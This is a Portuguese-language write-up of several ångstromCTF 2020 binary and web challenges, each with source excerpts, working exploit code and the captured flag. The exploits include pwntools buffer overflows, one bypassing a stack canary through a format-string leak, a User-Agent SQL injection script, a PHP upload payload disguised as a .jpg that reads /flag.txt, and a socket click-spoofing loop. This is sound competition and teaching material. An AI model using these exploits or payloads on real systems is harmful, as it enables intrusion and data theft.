



# ångstromCTF 2020 Writeup 

# No Canary - Binary
Olhando o código fonte encontramos uma função vulnerável gets, como já foi informado no nome da chall não tem a proteção canary ativa.
```c
char name[20];
gets(name);
```
* Precisamos encontrar a quantidade de bytes para sobrescrever `$RIP`
* Encontrar um endereço de retorno para chamar a função `flag`
* Pegar o endereço da função `flag`
```python
from pwn import *
context(arch='amd64', os='linux')
#context.log_level = "DEBUG"

def run():
    s = process('no_canary')
    s = remote("shell.actf.co",20700)

    junk = str("A"*32).encode() # depois de 32 bytes conseguimos sobrecrever $RIP
    ret_addr  = p64(0x00000000004012dd) # sobrescreve $RIP com o endereço de retorno da main
    flag_addr = p64(0x0000000000401186) # o endereço de retorno chama da função flag que esta em $RSP

    print(s.recvuntil("your name? "))
    s.sendline(junk+ret_addr+flag_addr)

    print(s.recv())
    print(s.recv())
    #s.interactive(prompt="")
run()
```
FLAG >> actf{that_gosh_darn_canary_got_me_pwned!}
# Canary - Binary
Olhando o código fonte encontramos algumas funções vulneráveis `gets`,`printf`, como já foi informado no nome da chall a canary esta ativada.
```c
char name[20];
gets(name);
printf(strcat(name, "!\n"));
char info[50];
gets(info);
```
* Na primeira entrada temos que vazar o `Stack Cookie` caso os cookie seja sobrescrita com um valor diferente o programa será encerrado
* Sobrescrever o Registrador que checa se o cookie foi alterado neste caso é o $RAX
* Sobrescrever $RBP com algum endereço
* Sobrescrever $RSP com o endereço da função flag

```python
from pwn import *
#echo 2 > /proc/sys/kernel/randomize_va_space
context(arch='amd64', os='linux')
#context.log_level = "DEBUG"

def run():
        #s = process('canary')
        s = remote("shell.actf.co",20701)

        junk = "A" * (56) # depois de 56 bytes conseguimos sobrecrever $RAX
        main = 0x400957 # endereço da função main
        flag = 0x400787 # endereço da função flag

        print(s.recvuntil("your name? "))
        s.sendline(str("%15$lx.%17$lx"))

        leak = bytes(s.recvuntil("tell me? ")).decode()
        print(leak)
        #print(hex(int(leak[18:30],16 )))
        cookie = int(leak[31:(31+16)], 16)
        #try:
        #    raw_input("aguarde")
        #except:
        #    pass
        p = junk.encode() # lixo
        p += p64(cookie) # sobrescreve $RAX
        p += p64(main) # sobrescreve $RBP
        p += p64(flag) # sobrescreve $RSP
        
        s.sendline(p)
        s.interactive(prompt="")
run()
```

FLAG >> actf{youre_a_canary_killer_>:(}
# Bop It - Binary
Olhando o código aparentemente não existe nenhuma função vulnerável no código fonte.
Mas olhando bem existe sim uma função vulnerável `strncat`
```c
strncat(wrong, guess, guessLen);
strncat(wrong, " was wrong. Better luck next time!\n", 35);
```
| `strncpy` e `strncat` não garante que a sequência seja terminada em nulo.

Então porque não enviar vários null e ver o que acontece.
```python
from pwn import *
#echo 2 > /proc/sys/kernel/randomize_va_space
context(arch='amd64', os='linux')
#context.log_level = "DEBUG"

def run():
    #s = process('bop_it')
    s = remote("shell.actf.co",20702)
	q = ""
	b = b''
	while "wrong" not in q:
		b = s.recvline()
		q = bytes(b).decode()
		if q in ["Bop it!\n", "Twist it!\n", "Pull it!\n"]:
			print(q)
			s.sendline(q[0])
		if q in ["Flag it!\n"]:
			print(q)
			s.sendline("\x00"*300)
			print(s.recv()[0x80:(0x80+25)])
			exit()
run()
```
FLAG >> actf{bopp1ty_bop_bOp_b0p}
# Consolation - Web
Esta é bem fácil, clicando no único botão que tem na tela, ele incrementa o valor e limpa o console.



É só baixar `iftenmillionfireflies.js` e modificar a palavra `clear` que na verdade é a função que limpa o console por qualquer coisa.

```bash
cat iftenmillionfireflies.js | sed 's/clear/hacker/' > new.txt
```
Depois copie o script do arquivo `new.txt` e cole no console.



FLAG >> actf{you_would_n0t_beli3ve_your_eyes}
# Secret Agents - Web 
Olhando o código fonte da para identificar um sql injection, tem mais algumas coisas logo abaixo, se o resultado da consulta tiver mais de uma linha ou não tiver nenhum resultado recebemos um erro.
Temos que percorrer linha por linha ate achar a flag.

```python
for r in cursor.execute("SELECT * FROM Agents WHERE UA='%s'"%(u), multi=True):
		if r.with_rows:
			res = r.fetchall()
			break

	cursor.close()
	conn.close()

	

	if len(res) == 0:
		return render_template("login.html", msg="stop! you're not allowed in here >:)")

	if len(res) > 1:
		return render_template("login.html", msg="hey! close, but no bananananananananana!!!! (there are many secret agents of course)")
    
    return render_template("login.html", msg="Welcome, %s"%(res[0][0]))
```

> payload

```python
import requests
import re
regex = r"actf{(.*)}"

sql_injection = "' or '1'='1' limit 2,1 #--"

headers = {
    'authority': 'agents.2020.chall.actf.co',
    'upgrade-insecure-requests': '1',
    'user-agent': sql_injection,
    'sec-fetch-dest': 'document',
    'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'sec-fetch-site': 'same-origin',
    'sec-fetch-mode': 'navigate',
    'sec-fetch-user': '?1',
    'referer': 'https://agents.2020.chall.actf.co/',
    'accept-language': 'pt-BR,pt;q=0.9,en-US;q=0.8,en;q=0.7',
}

response = requests.get('https://agents.2020.chall.actf.co/login', headers=headers)
flag = re.findall(regex, bytes(response.content).decode(), re.MULTILINE)

print("actf{"+str("".join(flag))+"}")
```
FLAG >> actf{nyoom_1_4m_sp33d}
# Defund's Crypt - Web
Este bloco de código é bem interessante, pois ele faz o filtro somente do mime type do arquivo, e só é permitido três tipos.
Obs: A flag esta no arquivo /flag.txt
```php
$finfo = new finfo(FILEINFO_MIME_TYPE);
if (false === $ext = array_search(
    $finfo->file($_FILES['imgfile']['tmp_name']),
    array(
        '.jpg' => 'image/jpeg',
        '.png' => 'image/png',
        '.bmp' => 'image/bmp',
    ),
    true
)) {
    throw new RuntimeException("Your memory isn't picturesque enough to be remembered.");
}
```
Teoricamente se eu pegar qualquer imagem que esteja na lista e modicar colocando `imagem.jpg.php` teria que fazer o upload normalmente.

```bash
cp crypt.jpg crypt.jpg.php
echo '<?php echo file_get_contents("/flag.txt"); ?>' >> crypt.jpg.php
```
No final do arquivo.


FLAG >> actf{th3_ch4ll3ng3_h4s_f4ll3n_but_th3_crypt_rem4ins}

# Woooosh - Web
Este desafio eu não consegui resolver a tempo, mas ele era bem interessante.

No código fonte tem duas coisas interessante a primeira é que, quando tem um clique na tela, é enviado para o servidor uma requisição, com a posição x e y da tela
`shapes[0].x e shapes[1].y` a cada acerto o `score` é incrementado;


```javascript
client.on("click", function(x, y) {
        try {
            if (!game) {
                return;
            }
            if (typeof x != "number" || typeof y != "number") {
                return;
            }
            if (dist(game.shapes[0].x, game.shapes[1].y, x, y) < 10) {
                game.score++;
            }
            game.shapes = genShapes();
            client.emit("shapes", game.shapes);
            client.emit("score", game.score);
        } catch (err) {
            console.log("err", err);
        }
    })
```
No final do jogo se o `score > 20` a flag é enviada
```javascript
function endGame() {
        try {
            if (game) {
                if (game.score > 20) {
                    client.emit(
                        "disp",
                        `Good job! You're so good at this! The flag is ${process.env.FLAG}!`
                    );
                } else {
                    client.emit(
                        "disp",
                        "Wow you're terrible at this! No flag for you!"
                    );
                }
                game = null;
            }
        } catch (err) {
            console.log("err", err);
        }
}
```

payload
```javascript
setInterval(function(){  window.socket.emit("click",shapes[0].x,shapes[1].y)   }, 10)
```

FLAG >>  actf{w0000sh_1s_th3_s0und_0f_th3_r3qu3st_fly1ng_p4st_th3_fr0nt3nd}
